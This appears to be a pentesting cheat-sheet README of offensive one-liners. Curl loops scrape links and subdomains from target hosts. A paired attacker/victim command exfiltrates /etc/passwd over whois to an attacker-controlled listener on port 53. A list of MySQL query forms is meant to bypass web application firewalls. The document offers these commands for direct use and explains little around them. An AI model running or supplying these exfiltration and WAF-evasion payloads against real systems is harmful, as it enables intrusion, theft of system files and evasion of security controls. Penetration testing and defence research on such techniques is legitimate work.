 # Commands | snippets | utilitaries helpers for pentesting

# Linux

```bash
# Onliner to get links from the target itself
for h in $(cat hosts.txt); do curl -siL https://$h|sed -n -E "s/.*<.*(href|src|url)[=:]['\"]?([^'\">]+).*/\2/p" ; done
```

```bash
# Onliner to get subdomains and related from the target itself
for h in $(cat hosts.txt); do curl -siL https://$h|egrep -io  "[0-9a-z_\-\.]+\.([0-9a-z_\-]+)?`echo $h|awk -F '.' '{print $(NF-1)}'`([0-9a-z_\-\.]+)?\.[a-z]{1,5}"|sort -fu ; done
```

```bash
# Have limited ways to exfiltrate data ? Use Whois!
attacker: nc -l -v -p 53 | sed "s/ //g" | base64 -d

victim: whois -h $attackerIP -p 53 cat /etc/passwd | base64
```

# Windows

# Tricks

## MySQL trick to break some WAFs

```
SELECT-1e1FROM`test`
SELECT~1.FROM`test`
SELECT\NFROM`test`
SELECT@^1.FROM`test`
SELECT-id-1.FROM`test`
```
